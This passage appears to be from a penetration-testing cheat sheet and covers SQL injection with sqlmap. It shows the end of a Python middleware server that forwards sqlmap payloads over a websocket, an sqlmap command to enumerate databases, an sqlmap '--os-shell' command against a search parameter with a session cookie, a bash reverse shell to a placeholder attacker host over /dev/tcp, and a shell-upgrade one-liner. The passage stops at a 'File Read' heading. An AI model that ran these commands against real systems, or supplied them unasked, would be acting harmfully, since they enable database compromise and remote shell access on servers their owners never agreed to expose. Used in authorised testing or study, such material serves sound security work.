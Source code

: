 ```c
      if payload:
        content = send_ws(payload)
      else:
        content = 'No parameters specified!'

      self.send_header("Content-type", content_type)
      self.end_headers()
      self.wfile.write(content.encode())
      return

  class _TCPServer(TCPServer):
    allow_reuse_address = True

  httpd = _TCPServer(host_port, CustomHandler)
  httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
  middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
  pass
```

#### Execution

```c
$ sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

### Getting Shell

```c
$ sqlmap -u 'http://<RHOST>/dashboard.php?search=a' --cookie="PHPSESSID=c35v0sipg7q8cnpiqpeqj42hhq" --os-shell
```

### Getting Reverse Shell

```c
$ os-shell> bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
```

### Upgrade Shell

```c
$ postgres@<RHOST>:/home$ SHELL=/bin/bash script -q /dev/null
```

### File Read
